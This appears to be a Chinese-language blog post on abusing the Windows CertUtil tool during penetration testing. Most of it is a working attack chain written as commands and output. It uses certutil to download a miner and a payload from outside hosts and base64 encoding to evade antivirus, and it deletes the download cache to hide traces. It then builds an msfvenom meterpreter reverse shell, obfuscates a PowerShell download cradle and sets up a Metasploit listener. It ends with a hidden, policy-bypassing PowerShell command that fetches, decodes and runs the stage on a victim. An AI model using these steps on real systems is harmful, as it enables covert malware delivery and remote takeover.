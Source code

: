 +++
title = 'Certutil在渗透中的使用'

description = "虽然不是很厉害但至少开始写了"

tags = [ "技术" ]

date = 2024-11-14T16:06:31+08:00

+++

CertUtil是一个Windows的内置程序，用于管理Windows中的证书，使用此程序，可以在Windows中安装，备份，删除，管理和执行与证书和证书存储相关的各种功能。



经典用法是处理Base64编码的数据：

```
C:\Windows\Temp> certutil.exe -decode input.txt output.exe
//-decode参数用于将编码的文件解码为其原始的二进制形式
//第一二个必选参数分别为输入文件名、输出文件名
```

也能够从远程URL下载证书或者任何其它文件

语法： “certutil.exe -urlcache -split -f [URL] output.file”

```
certutil.exe -urlcache -split -f http://37.44.212.223/miner.exe C:/Windows/temp/yete.exe
```

`-f` 覆盖现有文件。有值的命令行选项。后面跟要下载的文件 url。•`-split` 保存到文件。无值的命令行选项。加了的话就可以下载到当前路径，不加就下载到了默认路径。•`-URLCache` 显示或删除URL缓存条目。无值的命令行选项。（certutil.exe 下载有个弊端，它的每一次下载都有留有缓存。）

**两种功能进行结合：首先对恶意文件进行base64编码，以绕过AV检测， 然后在使用CertUtil.exe下载后再对其进行解码。**

```
C:\Windows\Temp>certutil.exe -urlcache -split -f "https://hackers.home/badcontent.txt" bad.txt
C:\Windows\Temp>certutil.exe -decode bad.txt bad.exe
```

攻击者为什么喜欢用CertUtil？因为它是Windows内置的程序，CertUtil可能会被列入白名单。其实利用合法的Windows植入恶意软件非常常见，比如Windows regsvr32.exe就是以类似的方式使用。



使用Certutil.exe下载文件，下载完成以后一定记得delete 清理痕迹。

```
C:\> certutil.exe -urlcache -split -f http://lyshark.com/lyshark.log
C:\> certutil.exe -urlcache -split -f http://lyshark.com/lyshark.log delete
```

还可以用来校验hash值，这个之前使用过

```
certutil -hashfile mimikatz.exe MD5    //检验MD5certutil -hashfile mimikatz.exe SHA1 //检验SHA1certutil -hashfile mimikatz.exe SHA256 //检验SHA256
```

**Certutil命令配合PS反弹后门**

PowerShell 混淆框架：https://github.com/danielbohannon/Invoke-CradleCrafter

1.在加载PowerShell脚本之前，先来进行数字签名，运行命令。

```
PS C:\Invoke-CradleCrafter> Set-ExecutionPolicy Bypass
执行策略更改
执行策略可帮助你防止执行不信任的脚本。更改执行策略可能会产生安全风险，如 https:/go.microsoft.com/fwlink/?LinkID=135170
中的 about_Execution_Policies 帮助主题所述。是否要更改执行策略? Y
```

2.使用方法，执行两条命令，加载框架。

```
PS C:\Invoke-CradleCrafter> Import-Module .\Invoke-CradleCrafter.ps1
PS C:\Invoke-CradleCrafter> Invoke-CradleCrafter

Invoke-CradleCrafter

          _____                 _                    ,
          \_   \_ ____   _____ | | _____           /(  __________
           / /\/ '_ \ \ / / _ \| |/ / _ \_____    |  >:==========`
        /\/ /_ | | | \ V / (_) |   <  __/_____|    )(
        \____/ |_| |_|\_/ \___/|_|\_\___|          ""
           ___              _ _        ___           __ _
          / __\ __ __ _  __| | | ___  / __\ __ __ _ / _| |_ ___ _ __
         / / | '__/ _` |/ _` | |/ _ \/ / | '__/ _` | |_| __/ _ \ '__|
        / /__| | | (_| | (_| | |  __/ /__| | | (_| |  _| ||  __/ |
        \____/_|  \__,_|\__,_|_|\___\____/_|  \__,_|_|  \__\___|_|

        Tool    :: Invoke-CradleCrafter
        Author  :: Daniel Bohannon (DBO)
        Twitter :: @danielhbohannon
        Blog    :: http://danielbohannon.com
        Github  :: https://github.com/danielbohannon/Invoke-CradleCrafter
        Version :: 1.1
        License :: Apache License, Version 2.0
        Notes   :: If(!$Caffeinated) {Exit}

HELP MENU :: Available options shown below:
```

3.MSF攻击主机，生成payload，并将生成好的payload放入网站根目录，保证能够正常访问。

```
[root@localhost ~]# msfvenom -p windows/x64/meterpreter/reverse_tcp \
> lhost=192.168.1.30 lport=8888 -e cmd/powershell_base64 \
> -f psh -o lyshark.txt

[root@localhost ~]# cp -a lyshark.txt  /var/www/html/
[root@localhost ~]# systemctl restart httpd
```

4.powershell 框架设置指定好的URL链接。

```
Invoke-CradleCrafter>  set URL http://lyshark.com/lyshark.txt

Successfully set Url:
http://lyshark.com/lyshark.txt
```

5.分别执行以下命令完成初始化，这里如果报错请添加环境变量。

```
Invoke-CradleCrafter> MEMORY

Choose one of the below Memory options:

[*] MEMORY\PSWEBSTRING          PS Net.WebClient + DownloadString method
[*] MEMORY\PSWEBDATA            PS Net.WebClient + DownloadData method
[*] MEMORY\PSWEBOPENREAD        PS Net.WebClient + OpenRead method
[*] MEMORY\NETWEBSTRING         .NET [Net.WebClient] + DownloadString method (PS3.0+)
[*] MEMORY\NETWEBDATA           .NET [Net.WebClient] + DownloadData method (PS3.0+)
[*] MEMORY\NETWEBOPENREAD       .NET [Net.WebClient] + OpenRead method (PS3.0+)
[*] MEMORY\PSWEBREQUEST         PS Invoke-WebRequest/IWR (PS3.0+)
[*] MEMORY\PSRESTMETHOD         PS Invoke-RestMethod/IRM (PS3.0+)
[*] MEMORY\NETWEBREQUEST        .NET [Net.HttpWebRequest] class
[*] MEMORY\PSSENDKEYS           PS SendKeys class + Notepad (for the lulz)
[*] MEMORY\PSCOMWORD            PS COM object + WinWord.exe
[*] MEMORY\PSCOMEXCEL           PS COM object + Excel.exe
[*] MEMORY\PSCOMIE              PS COM object + Iexplore.exe
[*] MEMORY\PSCOMMSXML           PS COM object + MsXml2.ServerXmlHttp
[*] MEMORY\PSINLINECSHARP       PS Add-Type + Inline CSharp
[*] MEMORY\PSCOMPILEDCSHARP     .NET [Reflection.Assembly]::Load Pre-Compiled CSharp
[*] MEMORY\CERTUTIL             Certutil.exe + -ping Argument
```

```
Invoke-CradleCrafter\Memory> CERTUTIL

[*] Name          :: Certutil
[*] Description   :: PowerShell leveraging certutil.exe to download payload as string
[*] Compatibility :: PS 2.0+
[*] Dependencies  :: Certutil.exe
[*] Footprint     :: Entirely memory-based
[*] Indicators    :: powershell.exe spawns certutil.exe certutil.exe 
[*] Artifacts     :: C:\Windows\Prefetch\CERTUTIL.EXE-********.pf AppCompat Cache
```

```
Invoke-CradleCrafter\Memory\Certutil> ALL


Choose one of the below Memory\Certutil\All options to APPLY to current cradle:

[*] MEMORY\CERTUTIL\ALL\1       Execute ALL Token obfuscation techniques (random order)


Invoke-CradleCrafter\Memory\Certutil\All> 1

Executed:
  CLI:  Memory\Certutil\All\1
  FULL: Out-Cradle -Url 'http://lyshark.com/lyshark.txt' -Cradle 17 -TokenArray @('All',1)

Result:
SV 1O6 'http://lyshark.com/lyshark.txt';.(Get-Command *ke-*pr*) ((C:\Windows\System32\certutil /ping (Get-Item Variable:\1O6).Value|&(Get-Variable Ex*xt).Value.InvokeCommand.(((Get-Variable Ex*xt).Value.InvokeCommand.PsObject.Methods|?{(Get-Variable _ -ValueOn).Name-ilike'*and'}).Name).Invoke((Get-Variable Ex*xt).Value.InvokeCommand.(((Get-Variable Ex*xt).Value.InvokeCommand|GM|?{(Get-Variable _ -ValueOn).Name-ilike'*Com*e'}).Name).Invoke('*el*-O*',$TRUE,1),[Management.Automation.CommandTypes]::Cmdlet)-Skip 2|&(Get-Variable Ex*xt).Value.InvokeCommand.(((Get-Variable Ex*xt).Value.InvokeCommand.PsObject.Methods|?{(Get-Variable _ -ValueOn).Name-ilike'*and'}).Name).Invoke((Get-Variable Ex*xt).Value.InvokeCommand.(((Get-Variable Ex*xt).Value.InvokeCommand|GM|?{(Get-Variable _ -ValueOn).Name-ilike'*Com*e'}).Name).Invoke('*el*-O*',$TRUE,1),[Management.Automation.CommandTypes]::Cmdlet)-SkipLa 1)-Join"`r`n")

Choose one of the below Memory\Certutil\All options to APPLY to current cradle:

[*] MEMORY\CERTUTIL\ALL\1       Execute ALL Token obfuscation techniques (random order)
```

6.将上方混淆后的内容保存为 crt.txt 然后进行encode加密

```
C:\Users\lyshark\Desktop>certutil -encode crt.txt crt.cer

输入长度 = 912
输出长度 = 1310
CertUtil: -encode 命令成功完成。
```

7.将生成的 crt.cer放入服务器的根目录下，保证能够访问，然后运行msfconsole控制台，并侦听事件。

```
[root@localhost ~]# cp -a crt.cer /var/www/html/

msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.1.30
lhost => 192.168.1.7
msf5 exploit(multi/handler) > set lport 8888
lport => 8888
msf5 exploit(multi/handler) > exploit -j -z
```

8.最终靶机执行，以下命令。

```
powershell.exe ‐Win hiddeN ‐Exec ByPasS add‐content ‐path %APPDATA%\crt.cer (New‐Object Net.WebClient).DownloadString('http://lyshark.com/crt.cer'); certutil ‐decode %APPDATA%\crt.cer %APPDATA%\stage.ps1 & start /b c
md /c powershell.exe ‐Exec Bypass ‐NoExit ‐File %APPDATA%\stage.ps1 & start /b cmd /c del %APPDATA%\crt.cer
```

这种情况下powershell脚本不会落地

没想到一个校验证书的程序能有这么多的功能...

*参考：*

[干货 | Certutil在渗透中的利用和详解](https://cloud.tencent.com/developer/article/1850744)

[certutil 命令配合PS反弹后门]((https://www.cnblogs.com/LyShark/p/10994300.html))

[攻击者利用CertUtil.exe植入恶意软件](https://wsygoogol.github.io/2018/12/17/%E6%94%BB%E5%87%BB%E8%80%85%E5%88%A9%E7%94%A8CertUtil-exe%E6%A4%8D%E5%85%A5%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6/)
